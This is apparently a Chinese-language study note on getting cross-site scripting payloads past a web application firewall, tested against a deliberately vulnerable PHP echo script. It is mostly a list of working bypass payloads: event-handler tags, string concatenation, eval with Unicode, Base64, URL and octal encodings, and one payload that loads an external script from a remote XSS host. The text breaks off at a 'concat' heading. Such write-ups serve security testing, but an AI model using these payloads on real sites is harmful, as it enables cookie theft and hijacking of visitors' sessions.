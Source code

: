  最近在学习xss方面的知识，涉及到waf的测试，在这里做个记录，方面查阅。

  ## 0x00 搭建环境
  - - -
  本地搭建测试waf测试，xss相关防护规则全部开启。
  
 ![1](https://ws1.sinaimg.cn/large/005DAKuvgy1g1sv90art7j30l10c0myc.jpg)
 
  ## 0x01 Self-Xss绕过
  - - -

  测试脚本
  ```php
  <?php   
    $input = @$_REQUEST["xss"];
    echo "<div>".$input."</div>"
  ?>
  ```
  
  首先思路就是一些被waf**遗漏的标签**，暂时不考虑**编码**或者**拼接字符串**这类思路，我们直接拿来测试。   

  `<video src=1 onerror=alert(/xss/)>`绕过。
  
  ![2](https://ws1.sinaimg.cn/large/005DAKuvgy1g1tv4ytym1j30uj08lq3m.jpg)
  
  类似的标签还有`<audio src=x onerror=alert(/xss/)>`
  
  ![3](https://ws1.sinaimg.cn/large/005DAKuvgy1g1tv87ifeuj30uj0933z8.jpg)
  
  除此之外以下几个`payload`都可以绕过。
  ```javascript
  <body/onfocus=alert(/xss/)>
  <details open ontoggle=alert(/xss/)>
  <button onfocus=alert(/xss/) autofocus>
  
  ```
  利用**伪协议**
  
  waf拦截
  
  ![4](https://ws1.sinaimg.cn/large/005DAKuvgy1g1tvkcpm4uj30uj08174y.jpg)
  
  加上一个**xmlns属性**即可绕过
  
  ![5](https://ws1.sinaimg.cn/large/005DAKuvgy1g1tvojz1hmj30uj08kdgj.jpg)
  
  实际上，我测试的waf是免费使用的，所以有些厂商可以象征性的取一些样本，拦截一下常见的标签，如果你购买了厂商的高级服务，那我们绕过就有难度，然而大多数网站还是使用免费版的多。
  
  ## 拼接字符类
  - - -
  拼接字符串的话，一般把关键字拆分成几个字符串，再拼接执行，结合**top**,**concat**之类的。
  
  ### top对象
  - - -
  
  top输出字符
  
  ![6](https://ws1.sinaimg.cn/large/005DAKuvgy1g1uep4k2whj30ao097dfs.jpg)
  
  或者打印cookie
  
  ![7](https://ws1.sinaimg.cn/large/005DAKuvgy1g1ueqqxro8j30f0091aa3.jpg)
  
  top可以连接`对象`以及`属性`或`函数`，那么我们可以做到很多，例如:
  
  直接top连接一个alert函数
  
  ![8](https://ws1.sinaimg.cn/large/005DAKuvgy1g1uewncru3j30x60duwem.jpg)
  
  `<details open ontoggle=top.alert(1)>`也可以绕过waf
  
  ![9](https://ws1.sinaimg.cn/large/005DAKuvgy1g1ueypy79kj30uj093t9h.jpg)
  
  `top['alert'](1)`也可弹窗，但waf拦截
  
  ![10](https://ws1.sinaimg.cn/large/005DAKuvgy1g1ufadg61cj30uj06vt95.jpg)
  
  绕过的话，很简单用`prompt`方法或者`confirm`都可以
  
  `<details open ontoggle=top['prompt'](1)>`
  
  ![11](https://ws1.sinaimg.cn/large/005DAKuvgy1g1ufd5cic3j30uj08yaau.jpg)
  
  如果我说一定要用`alert`的话就要用到`接字符串`了。
  
  `<details open ontoggle=top['al'%2b'ert'](1)>` %2b为url编码的+
  
  ![12](https://ws1.sinaimg.cn/large/005DAKuvgy1g1ufh1i5dkj30uj08jt9g.jpg)
  
  eval函数执行
  
  `<details open ontoggle=top.eval('ale'%2B'rt(1)') >`
  
  ![13](https://ws1.sinaimg.cn/large/005DAKuvgy1g1ug4njpphj30uj090aau.jpg)
  
  eval直接用也可以弹
  
  `<details open ontoggle=eval('alert(1)') >`
  
  ![14](https://ws1.sinaimg.cn/large/005DAKuvgy1g1ug8l4j2ej30uj08vjs5.jpg)

  这里为什么说到eval呢？因为如果eavl不拦截的话，我们可以测试各种编码，当然这是在牺牲长度的前提下。
  
  例如： `Unicode编码`
  
  `<details open ontoggle=eval('\u0061\u006c\u0065\u0072\u0074\u0028\u0031\u0029') >`
  
  ![15](https://ws1.sinaimg.cn/large/005DAKuvgy1g1ugbw6c1gj30uj08ujs6.jpg)
  
  其他：
  ```html
  Base64编码：
  <details open ontoggle=eval(atob('YWxlcnQoMSk=')) >
  eval拦截的话，可以试试，把 e Unicode编码
  <details open ontoggle=\u0065val(atob('YWxlcnQoMSk=')) >
  url编码：  
  <details open ontoggle=%65%76%61%6c(atob('YWxlcnQoMSk=')) >
  url编码： 
  <details open ontoggle=eval('%61%6c%65%72%74%28%31%29') >
  JS8编码：
  <details open ontoggle=eval('\141\154\145\162\164\50\61\51') >
  Ascii码绕过：
  <details open ontoggle=eval(String.fromCharCode(97,108,101,114,116,40,49,41)) >
  其他自测
  
  ```
  引用外部url，运用基于DOM的方法创建和插入节点把外部JS文件注入到网页。
  ```html
  <details open ontoggle=eval("appendChild(createElement('script')).src='http://xss.tf/eeW'") >
  ```
 ![16](https://ws1.sinaimg.cn/large/005DAKuvgy1g1uh5hp1a8j30uj0b1jsy.jpg)
  
  url编码
  ```html
  <details open ontoggle=eval(%61%70%70%65%6e%64%43%68%69%6c%64%28%63%72%65%61%74%65%45%6c%65%6d%65%6e%74%28%27%73%63%72%69%70%74%27%29%29%2e%73%72%63%3d%27%68%74%74%70%3a%2f%2f%78%73%73%2e%74%66%2f%65%65%57%27) >
  ```
  ![17](https://ws1.sinaimg.cn/large/005DAKuvgy1g1uhaxb0t2j30uj09uwg1.jpg)
  
  ### window对象
  - - -
  
  window和top类似，比如：
  `<img src=x onerror=window.alert(1) >`
  
  拼接一样的
  `<img src=x onerror=window['al'%2B'ert'](1) >`
  
  其他操作，参照上一章。
  
  
  通过赋值，也是我们常见的，看个例子：
  ```
  <img src=x onerror=_=alert,_(/xss/) >
  <img src=x onerror=_=alert;_(/xss/) >
  <img src=x onerror=_=alert;x=1;_(/xss/) >
  ```
  ![18](https://ws1.sinaimg.cn/large/005DAKuvgy1g1v3d5hdwmj30uj09m3za.jpg)
  
  短一点的`<body/onfocus=_=alert,_(123)>`
  
  ![18](https://ws1.sinaimg.cn/large/005DAKuvgy1g1v3l03yfxj30uj097mxw.jpg)
  
  函数赋值，也比较常见
  ```
  <body/onfocus="a=alert,a`/xss/`">
  
  ```
  
  ### concat
